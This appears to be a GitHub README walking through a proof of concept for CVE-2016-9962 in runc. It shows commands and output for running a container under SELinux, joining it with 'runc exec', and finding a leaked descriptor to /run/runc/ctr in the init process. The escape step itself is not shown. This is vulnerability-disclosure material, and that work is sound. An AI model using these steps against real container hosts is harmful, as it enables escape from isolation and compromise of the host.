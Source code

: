     
    [root@fedora25 PoC-CVE-2016-9962]# runc run ctr
    / #
    

Then open another terminal and check this "runc" program is working as
"container_t" domain;

    
    
    [root@fedora25 ~]# ps axZ|grep runc
    unconfined_u:system_r:container_t:s0-s0:c0.c1023 6799 pts/1 Sl+   0:00 runc run ctr
    

If the "runc" is not working on container_t domain, chack
/var/log/audit/audit.log and maybe add several another rules to runc.cil.

## PoC(Again!)

  * open 2 terminals(shell1, shell2).

  * Check SELinux is enabled;
    
        [root@localhost ~]# getenforce
        Enforcing
    

  * run container(sh) in shell1;
    
        [root@localhost ~]# runc run ctr
        / # 
    

  * run new container in shell2 with "runc exec" command. It is pausing 500sec;
    
        [root@localhost ~]# runc exec ctr sh
    
    

  * run "ps ax" in shell1. You can see shell2 process;
    
        [root@localhost ~]# runc run ctr
        / # ps ax
        PID   USER     TIME   COMMAND
            1 root       0:00 sh
            6 root       0:00 /proc/self/exe init
           11 root       0:00 ps ax
        / # 
    

  * In above case, check /proc/6/fd by ls command. You see path as fd/4;
    
        / # ls -la /proc/6/fd/
        total 0
        dr-x------    2 root     root             0 Jan 16 06:43 .
        dr-xr-xr-x    9 root     root             0 Jan 16 06:43 ..
        lrwx------    1 root     root            64 Jan 16 06:43 0 -> /dev/pts/4
        lrwx------    1 root     root            64 Jan 16 06:43 1 -> /dev/pts/4
        lrwx------    1 root     root            64 Jan 16 06:43 2 -> /dev/pts/4
        lrwx------    1 root     root            64 Jan 16 06:43 3 -> socket:[40487]
        lr-x------    1 root     root            64 Jan 16 06:43 4 -> /run/runc/ctr
        lrwx------    1 root     root            64 Jan 16 06:43 5 -> /dev/pts/4
        lr-x------    1 root     root            64 Jan 16 06:43 6 -> pipe:[40496]
        l-wx------    1 root     root            64 Jan 16 06:43 7 -> /dev/null
        / # 
    